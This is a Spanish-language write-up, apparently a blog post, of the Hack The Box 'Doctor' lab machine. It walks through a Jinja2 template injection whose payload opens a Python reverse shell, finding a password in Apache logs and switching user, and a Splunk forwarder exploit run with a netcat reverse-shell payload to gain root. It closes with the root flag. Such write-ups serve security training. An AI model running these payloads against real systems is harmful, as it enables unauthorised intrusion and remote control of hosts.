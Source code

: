 ```yaml
---
layout: post
title: Write-Up Máquina Doctor HTB
date: 2021-01-30 16:00 +0800
last_modified_at: 2021-01-30 16:10 +0800
tags: [htb, writeup, linux, splunk, ssti]
toc:  true
---
```


![Doctor-info-card](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-info-card.png)

## Introducción

La máquina doctor, Es una máquina de dificultad fácil la cual corre un sistema linux de 64 bits. Para explotar esta máquina vamos utilizar una [Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection) para obtener una reverse shell inicial. Una vez obtenida encontraremos una password que nos servirá para obtener el usuario. Para la escalada de privilegios, explotaremos el servicio splunk con las credenciales del usuario shaun.

---
## Escaneo

```bash
nmap  10.10.10.209 -p- -sV -sC --min-rate=5000                                                                                    

Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-04 15:02 CET
Nmap scan report for doctor.htb (10.10.10.209)
Host is up (0.031s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.70 seconds
```
Esta máquina tiene 3 puertos abiertos:
* Puerto 22: SSH
* Puerto 80: HTTPd (apache)
* Puerto 8089: HTTP (Splunk)


### Puerto 22
En el puerto 22 Nos encontramos con el un servidor SSH.

### Puerto 80
En el puerto 80, nos encontramos con un servidor web apache. En este caso si accedemos a través de la IP nos encontramos con una pagina estática. En ella podemos ver un correo con un dominio. 

![Doctor-email](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-email.png)

### Puerto 8089
En el puerto 8089, nos encontramos con un servidor de splunk.

---
## Enumeración

Si añadimos el dominio doctors.htb y accedemos al la web, nos encontramos con una pagina de login, la cual tiene una opción para registrar una cuenta.

![Doctor-login](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-login.png)

Vamos a registrar una cuenta y accedemos a la web principal. Una vez ahi se nos da la opción de postear un nuevo mensaje.

Vamos a postear un mensaje nuevo.

![Doctor-new-message](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-new-message.png)
![Doctor-posted-message](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-posted-message.png)

Vemos que podemos ver los mensajes que escribimos. Si vamos a view-source:http://doctors.htb/archive vemos que el título de el post aparece reflejado. Esto es indicativo de un posible server-side template injection.

---
## Explotación

Para la explotación vamos a crear un nuevo post con nuestro payload en el título, ya que es el título  lo que se refleja.

En este caso el payload va a ser una reverse shell en python, ya que el backend de la página es una implementación de flask.
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

En este caso nuestro payload sera el siguiente:


        [{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<tuIP>\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\"]);'").read().zfill(417)}}{%endif%}{% endfor %}]



Una vez creemos el post nuevo accederemos a http://doctors.htb/archive recibiremos nuestra reverse en el puerto 1234.

![Doctor-reverse-shell](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-reverse-shell.png)

Ya que tenemos una reverse shell, vamos a enumerar la maquina en busca de pistas para obtener el usuario. Para esto vamos a subir el script de [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) y vamos a enumerar la máquina.

```log
[+] Finding passwords inside logs (limit 70)
Binary file /var/log/apache2/access.log.12.gz matches
Binary file /var/log/journal/62307f5876ce4bdeb1a4be33bebfb978/system.journal matches
Binary file /var/log/journal/62307f5876ce4bdeb1a4be33bebfb978/user-1001.journal matches
Binary file /var/log/kern.log.2.gz matches
Binary file /var/log/kern.log.4.gz matches
Binary file /var/log/syslog.4.gz matches
/var/log/apache2/access.log:10.10.14.29 - - [04/Feb/2021:15:51:36 +0100] "GET /reset_password HTTP/1.1" 200 1812 "-" "gobuster/3.0.1"
/var/log/apache2/access.log:10.10.14.29 - - [04/Feb/2021:16:39:18 +0100] "GET /reset_password HTTP/1.1" 200 1811 "-" "gobuster/3.0.1"
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
/var/log/auth.log.1:Sep 22 13:01:23 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
/var/log/auth.log.1:Sep 22 13:01:28 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
/var/log/auth.log.1:Sep 23 15:38:45 doctor sudo:    shaun : command not allowed ; TTY=tty1 ; PWD=/home/shaun ; USER=root ; COMMAND=list
/var/log/auth.log.1:Sep 28 13:31:10 doctor sudo:     root : TTY=pts/0 ; PWD=/root ; USER=root ; COMMAND=/usr/sbin/setcap -r /usr/bin/python3/
```

Vemos que en uno de los logs hay una contraseña y también se hace referencia al usuario shaun.

Vamos entonces a probar las credenciales:
* username: shaun
* password: Guitar123

```bash
web@doctor:/tmp$ su shaun
su shaun
Password: Guitar123

id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
```
Como podemos ver ya somos usuario shaun y por tanto podemos ver la flag.

![Doctor-flag-user](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-flag-user.png)

---
## Escalada de privilegios

Al principio, vimos que la máquina tenia levantado un servidor de splunk en el puerto 8089. Si vamos a la URL https://10.10.10.209:8089/services nos pedirá unas credenciales. Ya que tenemos credenciales para el usuario shaun, vamos a probarlas.

![Doctor-services-splunk](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-services-splunk.png)

Como podemos comprobar tenemos acceso y las credenciales son validas. Una vez sabemos esto, vamos a buscar la forma de ejecutar comandos. 

Para este caso encontré una herramienta en github la cual nos permite de manera remota ejecutar una escalada de privilegios a traves de malas configuraciones en el [splunk universal forwarder](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/).

```bash
python3 PySplunkWhisperer2_remote.py --host doctors.htb --port 8089 --lhost 10.10.14.29 --user shaun --password Guitar123 --payload "nc.traditional -e /bin/bash '10.10.14.29' 1111"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpmj9na35k.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.29:8181/
10.10.10.209 - - [04/Feb/2021 19:59:20] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```
![Doctor-root-check](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-root-check.png)

como podemos ver, recibimos la reverse shell y ya somos root.

```
cat /root/root.txt
76373cb2c7aee0a7cfb9c284801cd62b
```


